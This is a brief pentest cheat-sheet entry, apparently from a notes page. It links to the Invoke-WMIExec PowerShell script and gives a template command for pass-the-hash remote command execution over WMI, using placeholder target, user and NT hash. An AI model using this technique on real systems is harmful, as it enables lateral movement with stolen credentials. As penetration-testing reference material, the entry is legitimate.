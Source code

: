 ### source
https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-WMIExec.ps1  

### execute command
```
Invoke-WMIExec -Target <rhost> -Domain <domain> -User <user> -Command "powershell -c <command>" -Hash <nthash>
```

